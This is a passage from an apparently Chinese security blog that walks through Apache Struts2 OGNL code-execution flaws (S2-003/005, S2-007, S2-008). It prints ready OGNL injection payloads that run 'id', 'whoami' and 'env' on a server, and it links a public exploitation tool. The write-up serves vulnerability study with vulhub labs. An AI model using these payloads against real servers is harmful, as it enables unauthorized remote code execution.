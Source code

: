 - S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

使用大佬工具：[[原创]K8 Struts2 Exp 20170310 S2-045(Struts2综合漏洞利用工具)](https://www.cnblogs.com/k8gege/p/10261223.html)
![](https://img-blog.csdnimg.cn/20201019210245591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
秒杀了，老脚本小子了
![](https://img-blog.csdnimg.cn/20201019210518724.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)


参考文章：
[【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)
[S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)
#### [struts2]s2-007
影响版本: 2.0.0 - 2.2.3
>当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

执行任意代码的EXP：
```php
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```
将Exp传入可以利用的输入框（age），即可执行
![](https://img-blog.csdnimg.cn/20200528124801289.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考文章：
[S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)
[先知社区：【Struts2-命令-代码执行漏洞分析系列】S2-007](https://xz.aliyun.com/t/2684)

#### [struts2]s2-008
影响版本: 2.1.0 - 2.3.1
>S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。
>
例如在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令
远程执行命令POC-1：
```js
/devmode.action?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```
远程执行命令POC-2(可直接回显)：
```js
/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27env%27%29.getInputStream%28%29%29)
```
![](https://img-blog.csdnimg.cn/20201007160237425.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
